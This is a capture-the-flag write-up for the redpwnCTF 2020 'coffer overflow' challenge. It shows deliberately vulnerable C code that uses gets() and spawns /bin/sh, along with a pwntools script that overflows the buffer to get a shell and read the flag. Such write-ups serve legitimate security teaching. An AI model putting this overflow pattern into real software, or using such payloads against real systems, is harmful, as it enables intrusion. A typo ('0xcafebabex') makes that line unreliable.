 #### Description
>The coffers keep getting stronger! You'll need to use the source, Luke.

>nc 2020.redpwnc.tf 31255
### Solution
We get an executable and it's source code:
```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code == 0xcafebabe) {
    system("/bin/sh");
  }
}
```

We can see that there's a buffer overflow vulnerability on `gets(name)`, but in order to get the a shell we need to overwrite the value from `code` to be `0xcafebabe`.

We can fill the `name` buffer with `AAAABBBBCCCCDDDDEEEEFFFF` and everything we add from here it will get into `code`. Just adding `/xca/xfe/xba/xbe` won't work, we have to provide the bytes as little endian.

We'll get shell using the `pwn` module and sending the payload as it follows:
```python
import pwn

con = pwn.remote('2020.redpwnc.tf', 31255)

con.recv()
con.recv()

exploit = b'AAAABBBBCCCCDDDDEEEEFFFF' + pwn.p32(0xcafebabe)
con.sendline(exploit)

con.sendline('ls')
ls = con.recv()
print(ls)

if b'flag.txt' in ls:
    con.sendline('cat flag.txt')
    print(con.recv().decode('utf-8'))

con.close()
```

`pwn.p32(0xcafebabex)` will make our payload to work for little endian.
